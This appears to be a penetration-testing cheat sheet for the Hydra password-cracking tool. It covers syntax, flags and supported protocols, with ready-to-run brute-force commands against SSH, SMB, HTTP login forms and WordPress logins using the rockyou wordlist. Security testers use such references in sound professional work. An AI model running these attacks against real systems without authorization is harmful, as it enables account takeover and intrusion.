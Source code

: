 # **Basic syntax :**
`hydra [options] <IP> <protocole>`

# **Some flags :**
`-h`  Show help menu

`-l <username>`  Username/login

`-L <wordlist>`  Usernames/login wordlist

`-p <password>`  Password

`-P <wordlist>`  Passwords wordlist

`-s <PORT>`  Specify port

`-f`  Stop bruteforce as soon as username and password are found

`-R`  Restore previous session

`-t <number>`  Number of threads

`-V`  Verbosity


# **Some protocols :**

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP,
SMB, SMTP, MySQL, etc...

# **Examples :**

`hydra -l admin -P rockyou.txt 192.168.10.10 ssh`

`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh`

`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb`


### Bruteforce HTTP Post form :

`hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form "/login:username=admin&password=^PASS^:F=Your password is incorrect"`


### Bruteforce Wordpress :

`hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`




